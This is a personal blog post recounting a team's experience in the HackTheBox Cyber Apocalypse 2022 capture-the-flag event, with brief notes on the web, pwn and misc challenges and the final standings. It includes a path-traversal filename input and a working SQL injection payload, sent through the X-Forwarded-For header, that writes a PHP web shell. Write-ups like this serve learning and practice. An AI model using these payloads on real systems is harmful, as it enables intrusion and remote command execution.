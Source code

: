 +++
title = "HackTheBox - Cyber Apocalypse 2022"
tags = [
    "ctf"
]
date = "2022-05-24"
toc = true
+++

# Well, that was harder than expected

Many times in life it's great to have a humbling experience. Not that I had an ego in this space anyway, I'm super new to it, but I was going in expecting to be able to crank through a fair number of challenges for this event. Let's just say that didn't happen.

Cyber Apocalypse 2022 was a jeopardy style CTF event with categories across all of the usual HackTheBox challenge content. I decided to primarily focus on Web as I've got the most experience there, but also dabbled in a few others.

I also had some split brain going into this as another CTF event was taking place at exactly the same time, though was quite easier. None the less, between work, that event, and this one I had some serious split brain going on.

# The Challenges

Unforutunately I can't track down the names of any of the challenges, so I'll need to work from memory here. From what I recall, I complete two of the `web` challenges, one of the `pwn` challenges, and one of the `misc` challenges.

The `pwn` challenge, honestly, I think was broken. I was able to solve it by inputting random text of any length. I *think* it was meant to be a buffer overflow that required a specific length string, but something definitely went wrong.

The `misc` challenge was an interface that would accept file creation, and then compress those files. It didn't sanitize user-provided filenames, so it was possible to do LFI and pull in the flag quite directly (e.g. `Enter filename: ../../../../../../flag.txt`). Again, a bit of a freebie.

The `web` challenges were a touch more involved, and were quite fun, though obviously on the easier end. The first one I recall was a whitebox challenge, and was based around a website that would sign you up for a newsletter. While the email addresses were sanitized, and parameterized in queries, the website would also track the visitor IP and log that... unsanitized. Part of this logic also allowed for the use of `X-Forwarded-For` headers, and when paired with an unsanitized query and a `sqlite` database on the backend you get... *drumroll* free web shells:

```
X-Forwarded-For: honk', 'fart'); ATTACH DATABASE '/var/www/cmd.php' AS shell; CREATE TABLE shell.payload (payload text); INSERT INTO shell.payload VALUES('<?php system($_GET["cmd"]); ?>' ); -- 
```

The other challenge was a Markdown to PDF converter, and similarly was a whitebox challenge. This one was predicated around [a known vulnerability in `mdToPdf`](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880), so once that vulnerability/component was identified the remainder of the challenge was trivialized.

# Final standings

Our team finished 919th out of 7024 teams (top 15%). For a first real competitive team event, with areas that several of us have _no_ expertise in (Hardware, Windows forensics, etc...) it was a great "learning experience".

We're also going to be participating in the DefCon CTF qualifiers at the end of May, and our goals there are very "realistic". Solving even a handful of challenges will be a win in our eyes...

# That other CTF?

The other CTF event was a follow up to the Microsoft-hosted event I wrote about last month. This one was quite similar, but new website, new vulnerabilities, and new bonuses. I finished 2nd out of 137 active participants, which shows quite the contrast in complexity between thoese events and ones like HackTheBox!
